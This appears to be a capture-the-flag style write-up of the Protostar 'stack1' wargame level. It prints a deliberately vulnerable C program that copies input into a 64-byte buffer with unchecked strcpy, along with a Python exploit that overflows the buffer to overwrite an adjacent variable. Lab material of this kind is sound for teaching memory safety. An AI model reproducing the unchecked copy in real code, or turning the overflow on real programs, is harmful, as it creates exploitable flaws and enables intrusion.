

# Stack One

## Description

This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

This level is at /opt/protostar/bin/stack1

Hints
* If you are unfamiliar with the hexadecimal being displayed, “man ascii” is your friend.
* Protostar is little endian

## Source code

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

## Exploit script

```python
from os import system

payload  = "A"*64
payload += "\x64\x63\x62\x61"
system("./stack1 " + payload)
```

Level passed!

<p align="center">
    
</p>